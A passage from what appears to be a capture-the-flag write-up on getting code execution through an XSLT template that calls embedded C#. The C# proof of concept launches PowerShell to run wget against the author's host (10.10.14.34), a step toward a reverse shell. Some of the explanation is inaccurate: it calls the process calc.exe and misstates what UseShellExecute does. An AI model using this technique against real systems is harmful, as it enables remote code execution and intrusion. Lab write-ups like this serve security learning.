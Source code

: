 -   **XSLT Template**:
    ```xml
    <xsl:template match="/">
      <xsl:value-of select="csharp_user:xml()"/>
    </xsl:template>
    ```

    -   The XSLT template calls the `xml()` function from the `csharp_user` namespace.
    -   The template is applied to the root `(/)` of the XML document, which means it is executed as soon as the transformation is applied.

-   **Why does this work?**
    -   Clearly the program is not sanitizing input nor is it sandboxed which means we can execute arbitrary code.


#### POC Test: {#poc-test}

-   So instead of running calc.exe we need it to trigger a reverse shell via powershell.
    -   Let's run a POC to see if we can get this to work.
        ```csharp
          public string xml() {
              string cmd = "wget http://10.10.14.34/POC";
              System.Diagnostics.Process proc = new System.Diagnostics.Process();
              proc.StartInfo.FileName = "powershell.exe";
              proc.StartInfo.Arguments = cmd;
              proc.StartInfo.UseShellExecute = false;
              proc.StartInfo.RedirectStandardOutput = true;
              proc.Start();
              string output = proc.StandardOutput.ReadToEnd();
              return output;
          }
        ```
    -   This function named `xml()` is designed to execute the `calc.exe` program:
        -   **Command Line Args**: `string cmd = "wget http://10.10.14.34/POC";` this is the IP of my host as well as a fake dir `POC` that I want it to try to connect to.
        -   **Process creation**: Uses the `System.Diagnostics.Process` class to launch an external process (`calc.exe`).
        -   **Define the process to launch**: `proc.StartInfo.FileName = "powershell.exe"` defines PowerShell as the process to launch.
        -   **Shell behavior**: `UseShellExecute = false` ensures that the process doesn't require a shell to run.
        -   **Redirect Output**: `RedirectStandardOutput = true` captures the output (useful to redirect to us)
            **Return Output**: `return output;` The function finally returns the process output.

-   **Run the exploit &amp; get a hit**:
    -   {{< figure src="/ox-hugo/2024-09-09-084311_.png" >}}
    -   This proves it works as I get a connection.


#### Base64 Encoded PowerShell String: {#base64-encoded-powershell-string}
